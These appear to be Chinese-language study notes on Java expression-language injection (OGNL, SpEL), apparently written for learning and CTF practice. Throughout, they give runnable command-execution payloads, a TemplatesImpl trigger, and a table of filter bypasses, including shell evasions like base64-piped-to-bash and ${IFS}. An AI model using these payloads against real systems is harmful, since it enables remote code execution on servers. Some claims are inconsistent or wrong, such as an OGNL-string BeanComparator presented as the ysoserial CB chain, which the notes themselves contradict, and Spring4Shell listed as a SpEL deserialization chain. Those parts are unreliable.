

## 本质
1. 表达式语言（EL）的设计初衷：动态访问和操作对象属性/方法，解耦视图与业务逻辑。比如在JSP页面中用 ${user.name} 替代 <%=user.getName()%>
2. 表达式注入 vs SQL注入：本质相同——代码与数据未分离。用户输入的数据被框架当作表达式代码解析执行了。SQL注入拼接到SQL语句，表达式注入拼接到EL表达式。
3. Java常见EL类型：
   ```
    OGNL（Struts2, MyBatis）：@java.lang.Runtime@getRuntime().exec('calc')

    SpEL（Spring）：T(java.lang.Runtime).getRuntime().exec("calc")

    MVEL：Runtime.getRuntime().exec("calc")

    JSP EL（功能受限，默认不能直接调用方法）
   ```
4. 触发方式：当框架调用 getValue()（OGNL/SpEL）、parseExpression()、或解析 ${}、%{} 等占位符时触发
### 表达式语言的定界符
1. 解析标记
   ```java
   // 框架遇到这样的字符串
   String input = "${@java.lang.Runtime@getRuntime().exec('calc')}";

   // 会提取 ${} 内部的内容
   String expression = "@java.lang.Runtime@getRuntime().exec('calc')";

   // 然后调用表达式引擎解析
   Ognl.getValue(expression, ...);  // 执行命令
   ``` 
2. 类比理解：
   ```
   SQL中的单引号 '...' 表示字符串边界
   JSON中的花括号 {...} 表示对象
   EL中的 ${...} 表示表达式边界
   ```
3. 不同框架中的变体
 
   | 框架/技术      | 表达式定界符        | 示例                                 |
   |----------------|---------------------|--------------------------------------|
   | JSP EL         | `${}`、`#{}`        | `${user.name}`                       |
   | Struts2 OGNL   | `${}`、`%{}`        | `%{@Runtime@exec('calc')}`           |
   | Spring EL      | `${}`、`#{}`        | `${user.name}`                       |
   | Thymeleaf      | `${}`、`*{}`        | `${user.name}`                       |
   | FreeMarker     | `${}`               | `${user.name}`                       |

   **注意**：${} 和 %{} 的区别
   ```
   ${}：立即求值（在标签渲染时）

   %{}：延迟求值（在OGNL上下文变化时重新计算）
   ```

---

4. 在反序列化中的特殊情况
   1. 反序列化漏洞（CB链）中，表达式通常不需要`${}`
      ``java
      // CB链中，直接传表达式字符串
      BeanComparator comparator = new BeanComparator(
         "@java.lang.Runtime@getRuntime().exec('calc')"  // 没有${}
      );

      // 因为框架内部直接调用 Ognl.getValue()
      // ${} 只是Web框架用来标记的，底层API不需要
      ```
   2. 为什么会有这个差异？
      ```java
      Web场景（Struts2）：
      HTTP参数 → %{...} 或 ${...} → 框架去掉定界符 → Ognl.getValue()

      反序列化场景（CB链）：
      序列化数据 → property字段直接是表达式 → PropertyUtils.getProperty() → 内部调用Ognl.getValue()
      ```  
## OGNL注入详解
### OGNL是什么
   1. OGNL = Object-Graph Navigation Language（对象图导航语言）
      本质：用字符串表达式来读写Java对象的属性、调用方法。
   2. 示例：
      ```java
      // 不用OGNL：写Java代码
      user.getName().toUpperCase()

      // 用OGNL：写字符串表达式
      "user.name.toUpperCase()"
      ```
   3. 为什么需要它
      动态性：表达式可以在运行时才确定（从配置文件、网络请求读取）
      解耦：框架（如Struts2）不需要硬编码调用哪些方法
      灵活：可以访问集合、静态方法、甚至创建对象
### OGNL核心语法

| 符号 | 名称     | 作用                   | 反序列化中的用途                  |
|------|----------|------------------------|----------------------------------|
| .    | 点号     | 访问属性/调用方法      | getRuntime().exec()              |
| []   | 中括号   | 访问数组/Map/指定属性  | request["param"]                 |
| #    | 井号     | 引用上下文变量         | #a=Runtime.getRuntime()          |
| @    | at符号   | 调用静态方法           | @java.lang.Runtime@getRuntime()  |

---
1. 点号`. ` - 最常用
   ```java
   // 调用普通方法
   ${"hello".length()}  // 返回5

   // 链式调用
   ${user.name.toUpperCase()}  // 获取user对象的name属性，转大写

   // 在反序列化中
   ${@java.lang.Runtime@getRuntime().exec('calc')}
   ```
2. 中括号`[]` - 替代点号或访问集合
   ```java
   // 等价于 user.name
   ${user["name"]}

   // 访问List
   ${list[0]}

   // 访问Map
   ${map["key"]}

   // 绕过黑名单（点号被过滤时）
   ${@java.lang.Runtime@getRuntime()["exec"]('calc')}
   ``` 
3. 井号`#` - 操作上下文变量（重要）
   ```java
   // 创建变量
   ${#a=1, #b=2, #a+#b}  // 返回3

   // 存储Runtime对象（避免重复调用静态方法）
   ${#rt=@java.lang.Runtime@getRuntime(), #rt.exec('calc')}

   // 访问OGNL上下文中的特殊变量
   ${#this}   // 当前对象
   ${#root}   // 根对象
   ${#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']}  // Struts2中的response

   // 在CTF中常用：获取Web目录
   ${#request.getSession().getServletContext().getRealPath("/")}
   ``` 
4. at符号`@` - 静态调用
   ```java
   // 调用静态方法
   ${@java.lang.Runtime@getRuntime()}

   // 访问静态字段
   ${@java.lang.Integer@MAX_VALUE}

   // 注意：调用静态方法时需要完整包名
   ${@完全限定类名@方法名()}
   ``` 
### OGNL在Java中的使用方式
OGNL不是自动执行的，需要显式调用OGNL API：
```java
import ognl.Ognl;
import ognl.OgnlException;

public class OgnlTest {
    public static void main(String[] args) throws OgnlException {
        // 1. 解析表达式字符串 -> 抽象语法树
        Object expression = Ognl.parseExpression("@java.lang.Runtime@getRuntime().exec('calc')");
        
        // 2. 在上下文中执行表达式
        // 参数1: 表达式AST
        // 参数2: 上下文（可以放自定义变量）
        // 参数3: 根对象（表达式中的root）
        Ognl.getValue(expression, null, null);
    }
}
```
**关键点**：只要代码中调用了 Ognl.getValue()，且表达式可控，就是OGNL注入点。
**实际漏洞示例**

### 在反序列化链中的触发（CB链核心）
1. BeanComparator的compare方法
   ```java
   // Apache Commons BeanUtils 1.8.3
   public class BeanComparator<T> implements Comparator<T>, Serializable {
      private String property;  // ← 这就是表达式注入点！
      
      public int compare(T o1, T o2) {
         // 关键：调用PropertyUtils.getProperty
         Object value1 = PropertyUtils.getProperty(o1, this.property);
         Object value2 = PropertyUtils.getProperty(o2, this.property);
         return ((Comparable) value1).compareTo(value2);
      }
   }
   ```  
2. PropertyUtils如何支持OGNL
   ```java
   // PropertyUtils.getProperty内部逻辑（简化）
   public static Object getProperty(Object bean, String name) {
      // 如果name是普通的属性名，用反射调用getter
      // 但如果name是OGNL表达式（包含@、#、.等），会调用OGNL引擎
      // 实际Apache BeanUtils内部委托给BeanIntrospector，最终可能调用到OGNL
   }
   ```
   PropertyUtils.getProperty 本身不直接支持OGNL。
   真正的OGNL触发发生在某些特定框架（如Struts2）重写了这个方法，或者在 BeanComparator 配合其他库（如 commons-beanutils + ognl 同时存在）时。
   更准确的理解：
   在纯 commons-beanutils 中，property 只能是普通JavaBean属性名（如 "name"、"age"）
   但当 commons-beanutils 和 ognl 库同时存在，且某些框架扩展了 PropertyUtils，才能支持OGNL表达式
3. 实战中的CB链构造（ysoserial版本）
   ```java
   // 设置property为OGNL表达式
   BeanComparator comparator = new BeanComparator(
      "@java.lang.Runtime@getRuntime().exec('calc')"  // property参数
   );

   // 放入PriorityQueue
   PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
   // ... 触发compare
   ``` 
### OGNL执行命令的完整POC
1. 基础命令执行
   ```java
   String expression = "@java.lang.Runtime@getRuntime().exec('calc')";
   Object ast = Ognl.parseExpression(expression);
   Ognl.getValue(ast, null, null);
   ```` 
2. 创建变量 + 多步执行
   ```java
   // 场景：需要先获取Runtime，再调用exec
   String expression = 
      "#rt=@java.lang.Runtime@getRuntime(), " +  // 存到变量
      "#cmd='calc', " +                          // 存命令
      "#rt.exec(#cmd)";                          // 执行
   ``` 
3. 处理有返回值的命令（读取命令结果）
   ```java
   // 读取whoami的输出
   String expression = 
      "#rt=@java.lang.Runtime@getRuntime(), " +
      "#proc=#rt.exec('whoami'), " +
      "#is=#proc.getInputStream(), " +
      "#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)), " +
      "#br.readLine()";

   Object result = Ognl.getValue(
      Ognl.parseExpression(expression), 
      null, 
      null
   );
   System.out.println(result);  // 打印用户名
   ``` 
4. 结合TemplatesImpl（无文件落地）
   ```java
   // 假设你已经在上下文中有一个TemplatesImpl对象（变量名evil）
   String expression = "#evil.getOutputProperties()";
   // 这会触发TemplatesImpl加载字节码
   ``` 
### 常见的黑名单绕过

| 黑名单 | 绕过方式 | 示例 |
|--------|----------|------|
| 过滤 Runtime | 用 ProcessBuilder | `new java.lang.ProcessBuilder('calc').start()` |
| 过滤 exec | 反射调用 | `@java.lang.Runtime@getRuntime().getClass().getMethod('exec', ...).invoke(...)` |
| 过滤 . | 用 `[]` | `@java.lang.Runtime@getRuntime()["exec"]('calc')` |
| 过滤 @ | 用 `#` 加全限定名 | OGNL很难绕过，因为静态调用必须用 `@` |
| 过滤 `'` | Unicode编码 | `\u0027calc\u0027` |
| 过滤 `(` | Unicode编码 | `\u0028` |
| 过滤关键字 | 字符串拼接 | `'ex'+'ec'` |
| 过滤空格 | `${IFS}` / `%09` / `{cat,flag}` | `cat${IFS}/flag` |
| 过滤 `&`、`\|`、`;` | 换行符 `%0a` / 回车符 `%0d` | `127.0.0.1%0acat /flag` |
| 过滤 `cat` | 其他读取命令 | `tac`、`more`、`less`、`head`、`tail`、`nl` |
| 过滤 `bash` / `sh` | `$0` / 其他shell | `$0 -c "cat /flag"` |
| 过滤 `/` | 环境变量截取 | `cat ${PATH:0:1}flag` |
| 过滤数字 | 环境变量长度 | `${#PATH}` 获取数字 |
| 过滤字母 | base64编码 | `echo 'Y2F0IC9mbGFn' \| base64 -d \| bash` |
| 过滤 `$` | 反引号执行 | `` `cat /flag` `` |

---

绕过示例：
```java
// 原始：@java.lang.Runtime@getRuntime().exec('calc')

// 绕过点号过滤
${@java.lang.Runtime@getRuntime()["exec"]('calc')}

// 绕过exec关键词
${@java.lang.Runtime@getRuntime()["ex"+"ec"]('calc')}

// 绕过引号过滤（Unicode）
${@java.lang.Runtime@getRuntime().exec(\u0027calc\u0027)}
```
## 与其他知识点的关联

| 特性 | OGNL | SpEL |
|------|------|------|
| **静态方法调用** | `@class@method()` | `T(class).method()` |
| **创建新对象** | `new java.io.File('test')` | `new java.io.File('test')` |
| **访问数组** | `array[0]` | `array[0]` |
| **上下文变量** | `#var` | `#var` |
| **主要用途** | Struts2, MyBatis | Spring Framework |
| **反序列化链** | CB链（BeanComparator） | Spring4Shell等 |

---
